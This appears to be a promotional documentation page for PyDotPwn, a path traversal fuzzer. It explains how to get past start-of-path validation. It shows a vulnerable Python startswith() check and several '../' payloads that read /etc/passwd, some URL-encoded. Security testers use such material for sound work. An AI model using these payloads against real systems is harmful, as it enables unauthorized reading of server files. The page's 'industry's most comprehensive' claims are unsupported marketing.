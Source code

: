 ```yaml
---
layout: default
title: "Path Validation Bypass"
---
```


# 🆕 Path Validation Bypass - Revolutionary Feature

## Overview

PyDotPwn introduces the **industry's most comprehensive path validation bypass capability**, specifically targeting the OWASP vulnerability **"File path traversal, validation of start of path"** (CWE-22). This revolutionary feature generates over **25,000 specialized patterns** designed to bypass modern application security controls.

## 🎯 What is Path Validation Bypass?

### The Problem

Modern web applications often implement path validation that checks if a file path starts with a "legitimate" directory:

```python
# Vulnerable validation logic
if user_path.startswith("/var/www/uploads/"):
    # Allow access - VULNERABLE!
    return open(user_path, 'r')
```

### Traditional Attacks (Limited Success)
```
../../../etc/passwd           # ❌ Blocked - doesn't start with /var/www/uploads/
../../../../etc/passwd         # ❌ Blocked - doesn't start with /var/www/uploads/
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd  # ❌ Blocked - encoding detected
```

### PyDotPwn's Path Validation Bypass (SUCCESS)
```
/var/www/uploads/../../../etc/passwd     # ✅ Bypassed - starts with legitimate prefix!
/var/www/images/../../../etc/passwd      # ✅ Bypassed - uses common image directory
/var/www/files/../../../etc/passwd       # ✅ Bypassed - uses common files directory
```

## 🚀 Revolutionary Capabilities

### 📊 Pattern Generation Scale

| Feature | Traditional Tools | PyDotPwn |
|---------|------------------|----------|
| **Path Validation Patterns** | 0 | 25,000+ |
| **Subdirectory Prefixes** | 0 | 90+ real-world paths |
| **Multi-Level Encoding** | Basic | 5-level deep encoding |
| **Cross-Platform Support** | Limited | Windows + UNIX |
